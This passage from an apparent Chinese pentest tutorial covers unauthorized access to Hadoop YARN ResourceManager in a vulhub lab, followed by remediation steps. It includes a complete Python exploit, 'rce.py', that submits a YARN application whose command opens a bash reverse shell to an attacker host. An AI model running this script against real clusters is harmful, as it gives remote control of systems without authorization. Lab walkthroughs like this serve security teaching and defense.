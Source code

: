   1、端口扫描

  2、使用 vulhub 搭建漏洞演示环境

    `cd /vulhub/hadoop/unauthorized-yarn`

    `docker-compose up -d`

  3、环境启动后，没有配置身份认证，可以未授权访问到 Hadoop YARN ResourceManager WebUI 页面。

    `http://192.168.126.130:8088/`

    `http://192.168.126.130:8088/cluster`

    ![](https://img2023.cnblogs.com/blog/3165839/202305/3165839-20230504102601028-442453404.png)

    利用该漏洞，可以进一步 getshell

    ![](https://img2023.cnblogs.com/blog/3165839/202305/3165839-20230504102624166-20362939.png)

    脚本源码如下：`rce.py`

```
#!/usr/bin/env python
import requests
target = 'http://192.168.126.130:8088/' # 设置目标主机的ip地址
lhost = '192.168.126.128' # 设置你攻击主机的监听ip地址，并且监听端口为9999
url = target + 'ws/v1/cluster/apps/new-application'
resp = requests.post(url)
app_id = resp.json()['application-id']
url = target + 'ws/v1/cluster/apps'
data = {
    'application-id': app_id,
    'application-name': 'get-shell',
    'am-container-spec': {
        'commands': {
            'command': '/bin/bash -i >& /dev/tcp/%s/9999 0>&1' % lhost,
        },
    },
    'application-type': 'YARN',
}
requests.post(url, json=data)

```

    ![](https://img2023.cnblogs.com/blog/3165839/202305/3165839-20230504102709694-668366345.png)

### 漏洞修复

*   升级 Hadoop 到 x 版本以上，并启用 Kerberos 认证功能，禁止匿名访问;
    
*   设置 “安全组” 访问控制策略，将 Hadoop 默认开放的多个端口对公网全部禁止或限制可信任的 IP 地址才能访问包括 50070 以及 WebUI 等相关端口；
    
*   如无必要，关闭 Hadoop Web 管理页面；
    

**14.    JBoss 未授权访问（8080）**
----------------------------

